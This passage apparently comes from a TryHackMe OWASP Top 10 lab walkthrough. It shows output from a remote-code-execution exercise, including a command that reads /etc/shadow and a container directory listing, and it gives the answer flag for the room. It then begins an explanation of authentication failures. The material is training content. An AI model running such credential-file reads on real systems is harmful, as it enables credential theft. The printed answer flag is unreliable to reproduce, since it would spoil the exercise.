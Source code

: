 ```
mysql:x:101:102:mysql:/var/lib/mysql:/sbin/nologin

RCE $ cat /etc/shadow

RCE $ ls -lah /
total 116K   
drwxr-xr-x    1 root     root        4.0K Feb  3 05:09 .
drwxr-xr-x    1 root     root        4.0K Feb  3 05:09 ..
-rwxr-xr-x    1 root     root           0 Feb  3 05:09 .dockerenv
drwxr-xr-x    2 root     root        4.0K May 23  2022 bin
drwx------    7 mysql    root        4.0K Mar  9 17:45 data
drwxr-xr-x    5 root     root         340 Mar  9 17:45 dev
-rwxr-xr-x    1 root     root        2.2K May 12  2022 docker-entrypoint.sh
drwxr-xr-x    1 root     root        4.0K Feb  3 05:09 etc
drwxr-xr-x    2 root     root        4.0K May 23  2022 home
drwxr-xr-x    1 root     root        4.0K Sep 13 06:17 htdocs
drwxr-xr-x    1 root     root        4.0K Sep 12 22:59 lib
drwxr-xr-x    5 root     root        4.0K May 23  2022 media
drwxr-xr-x    2 root     root        4.0K May 23  2022 mnt
drwxr-xr-x    1 root     root        4.0K Feb  3 05:09 opt
dr-xr-xr-x  209 root     root           0 Mar  9 17:45 proc
drwx------    1 root     root        4.0K Feb  3 05:09 root
drwxr-xr-x    1 root     root        4.0K Feb  3 05:09 run
drwxr-xr-x    1 root     root        4.0K Sep 12 22:59 sbin
drwxr-xr-x    2 root     root        4.0K May 23  2022 srv
-rwxr-xr-x    1 root     root        2.1K Sep 13 06:10 start.sh
dr-xr-xr-x   13 root     root           0 Mar  9 17:45 sys
drwxrwxrwt    1 root     root       20.0K Mar  9 19:10 tmp
drwxr-xr-x    1 root     root        4.0K May 23  2022 usr
drwxr-xr-x    1 root     root        4.0K Jul 16  2022 var

```

What is the content of the /opt/flag.txt file?

*THM{But_1ts_n0t_my_f4ult!}*

### 7. Identification and Authentication Failures

![Authentication Failures](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/1cadd89ea0ec694110f3539c9592a32f.png)  
  

Authentication and session management constitute core components of modern web applications. Authentication allows users to gain access to web applications by verifying their identities. The most common form of authentication is using a username and password mechanism. A user would enter these credentials, and the server would verify them. The server would then provide the users' browser with a session cookie if they are correct. A session cookie is needed because web servers use HTTP(S) to communicate, which is stateless. Attaching session cookies means the server will know who is sending what data. The server can then keep track of users' actions. 

  

If an attacker is able to find flaws in an authentication mechanism, they might successfully gain access to other users' accounts. This would allow the attacker to access sensitive data (depending on the purpose of the application). Some common flaws in authentication mechanisms include the following:  
  